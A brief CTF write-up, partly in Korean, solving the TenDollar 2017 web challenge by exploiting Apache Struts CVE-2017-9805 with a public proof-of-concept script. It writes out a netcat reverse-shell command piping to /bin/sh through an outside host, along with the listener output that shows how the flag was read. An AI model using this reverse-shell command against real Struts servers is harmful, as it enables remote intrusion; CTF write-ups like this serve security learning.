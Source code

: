 # [2017_TenDollar] \[WEB] Like Real Hacker

###Solution

```
(CVE-2017-9805) Struts is fucking nurd. Search that shit and capture the flag!

The flag is in /home/joizel/flag
```

Apache Struts 취약점을 이용합니다.



```
python ex.py http://web2.tendollar.kr:9100/ctfquiz1/orders/37 "nc stealthee.kr 9998 | /bin/sh | nc stealthee.kr 9999"
```

```
# nc -lvp 9998
Listening on [0.0.0.0] (family 0, port 9998)
Connection from [45.77.11.103] port 9998 [tcp/*] accepted (family 2, sport 41150)
cat /home/joizel/flag
```

```
# nc -lvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from [45.77.11.103] port 9999 [tcp/*] accepted (family 2, sport 52736)
TDCTF{I_dont_like_Apache_Struts_Vulnerability}
```

POC 코드를 구해서 Exploit 했습니다.
